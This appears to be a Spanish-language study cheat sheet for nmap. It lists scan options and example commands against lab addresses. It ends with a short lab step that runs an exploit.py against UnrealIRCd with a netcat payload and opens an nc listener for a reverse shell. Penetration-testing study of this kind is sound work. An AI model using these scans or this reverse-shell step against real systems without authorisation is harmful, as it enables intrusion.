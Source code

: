 ### NMAP
Descubirmiento de redes y auditoría de seguridad
- Descubrir hosts y servicios en una red enviadno paquetes y analizando respuestas
- Recopilar información sobre los sistemas operativod
- Descubrir puertos aiertos, servicios ejecutándose y sus versiones
- Descubrir vulnerabilidades

### Scanning
```bash
namp [red]
nmap 10.10.10.0/24
```

### Descubrimiento de host
LA opción `-sn` o  `-sP` omite el escaneo de puertos, centrando la tarea en el descubrimiento de host activos mediente un ping. Es ideal para enumerar dispositivos en una red sin realizar un aanálisi profundo de los servicios que ofrecen.

```bash
nmap -sn 10.10.10.0/24
```

### Especificando hosts y redes para el escaneo
`-iL` Lee desde un archivo una lista de direcciones

`IP1 IP2 IP3` Ecanea las direcciones especificadas

`IP - IP` Escanea un rango de direcciones

```bash
nmap -sn 10.10.10.1-4
nmap -sn 10.10.10.1 10.10.10.4
```

### Opciones de escaneo avanzado
`-p[puerto(s)]` Especifica los puertos a escanear

`-T[0 - 5]` Ajusta la velocidad del escaneo

`-oN[ archivo ]` Guarda el resultado del escaneo en un archivo

```bash
nmap 10.10.10.4 -p 22,23 -T5 -oN scan-10.10.10.4
```

### Standard (TCP)
```bash
nmap -sT 10.10.10.4 # Standard if dont put -sT (TCP)
```

### 3 way handshake
![alt text](image.png)

### Escaneo UDP
```bash
sudo nmap 10.10.10.4 -sU -T5
```

### Escaneo sin ping
Asume que los hosts estan activos

```bash
nmap -Pn --open -sT 10.10.10.4
```

### Escanear todos
```bash
nmap -p- 10.10.10.4
```

### Descubrimiento de versiones
```bash
nmap -p 22,23,445 10.10.10.4 -sT -T5 -Pn --open -sV
```

### Scripts NSE
https://nmap.org/nsedoc/categories/default.html

```bash
nmap -p 21,139,445 10.10.10.4 -T5 -sT -Pn --open -sV -sC
```

### All network
```bash
nmap -O 192.168.1.0/24 # -O to view OS
```
### Specific network
```bash
nmap -p- -sVC -sC --open -sS -vvv -n -Pn 192.168.1.3
```

Donde:

`-p-`: Todos los puertos

`-sVC`: Escanea los servicios y versiones de los puertos

`-sC`: Escanea los scripts NSE

`--open`: Escanea los puertos abiertos

`-sS`: Escanea los servicios

`-vvv`: Muestra los detalles del escaneo

`-n`: Sin resolución DNS

`-Pn`: No pide ping

### exploit.py
Put the ip add of the host in the exploit.py file (UnrealIRcd)
```bash
./exploit.py 192.168.1.8 6667 -payload netcat # victim's ip and port
```
- In another console, open netcat
```
sudo nc -nlvp 443
```
- Run the py script and get the reverse shell















